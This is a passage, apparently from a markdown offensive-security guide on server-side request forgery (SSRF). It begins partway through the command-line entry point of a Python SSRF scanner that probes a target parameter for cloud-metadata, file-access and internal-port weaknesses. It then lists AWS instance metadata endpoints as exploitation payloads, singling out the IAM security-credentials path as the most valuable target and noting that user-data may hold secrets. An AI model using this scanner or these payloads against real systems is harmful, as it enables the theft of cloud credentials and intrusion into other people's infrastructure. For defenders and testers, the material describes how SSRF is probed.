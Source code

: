 ```python
    parser.add_argument("-u", "--url", required=True, help="Target URL")
    parser.add_argument("-p", "--parameter", required=True, help="Vulnerable parameter")
    parser.add_argument("-o", "--output", help="Output file")
    args = parser.parse_args()
    
    scanner = SSRFScanner(args.url, args.parameter)
    results = scanner.run_comprehensive_scan()
    
    # Print summary
    print("\n[+] SSRF Scan Summary:")
    print(f"  - Cloud Metadata Vulnerabilities: {len(results['cloud_metadata'])}")
    print(f"  - File Access Vulnerabilities: {len(results['file_access'])}")
    print(f"  - Internal Services Found: {len(results['port_scan'])}")
    
    if args.output:
        import json
        with open(args.output, 'w') as f:
            json.dump(results, f, indent=2)
        print(f"[+] Results saved to {args.output}")

if __name__ == "__main__":
    main()
```

## ⚔️ Exploitation Methods

### 1. ☁️ Cloud Metadata Exploitation

#### AWS Metadata Service
```bash
# Basic metadata access
http://169.254.169.254/latest/meta-data/

# Instance information
http://169.254.169.254/latest/meta-data/instance-id
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/local-ipv4
http://169.254.169.254/latest/meta-data/public-ipv4

# Security credentials (most valuable)
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE-NAME]

# User data (may contain secrets)
http://169.254.169.254/latest/user-data/

# Dynamic data
http://169.254.169.254/latest/dynamic/instance-identity/document
```
